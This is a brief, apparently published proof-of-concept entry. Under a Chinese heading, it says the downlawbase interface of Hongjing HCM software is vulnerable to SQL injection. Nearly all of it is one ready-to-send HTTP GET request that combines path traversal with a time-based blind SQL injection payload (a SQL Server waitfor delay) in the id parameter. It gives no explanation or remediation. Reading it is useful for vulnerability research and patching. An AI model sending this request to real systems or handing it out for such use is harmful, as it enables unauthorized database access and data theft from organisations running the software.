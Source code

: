 ## 宏景HCM-downlawbase接口存在SQL注入漏洞



## poc
```
GET /templates/attestation/../../selfservice/lawbase/downlawbase?id=11';waitfor+delay+'0:0:2'--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```
